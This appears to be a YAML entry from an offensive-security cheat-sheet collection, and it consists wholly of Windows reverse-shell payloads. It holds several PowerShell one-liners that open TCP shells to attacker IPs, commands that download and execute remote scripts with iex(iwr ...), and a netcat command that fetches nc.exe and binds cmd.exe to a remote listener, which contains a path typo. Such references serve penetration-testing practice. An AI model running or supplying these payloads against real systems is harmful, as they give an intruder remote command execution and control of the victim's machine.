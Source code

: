 ```yaml
---
functions:
  shell:
    - description: Powershell reverse shell (example 1)
      code: |
        powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.149',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    - description: Powershell reverse shell (example 2)
      code: |
        start /B powershell -c "$a='10.10.14.20';$b=80;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}"
    - description: Powershell reverse shell (example 3)
      code: |
        start-job IEX(iwr http://192.168.119.149:8000/Invoke-Shell.ps1 -UseBasicParsing); Invoke-Shell 192.168.119.149 8889
    - description: Powershell reverse shell (script )
      code: |
        ps-shell.ps1:
        $ip="10.10.14.20";$port=445;$client = New-Object System.Net.Sockets.TCPClient($ip,$port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        From cmd.exe context:
        start /B powershell -c "iex(iwr http://10.10.14.20/ps-shell.ps1)"
        Or:
        iex(iwr http://10.10.14.20/ps-shell.ps1)
    - description: Netcat reverse shell
      code: |
        powershell -c "iwr http://10.10.1.36:8000/nc.exe -outfile c:\users\public\nc.exe -usebasicparsing;c:\uses\public\nc.exe 10.10.14.36 8889 -e cmd.exe"
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/Invoke-Shell.ps1    
---
```

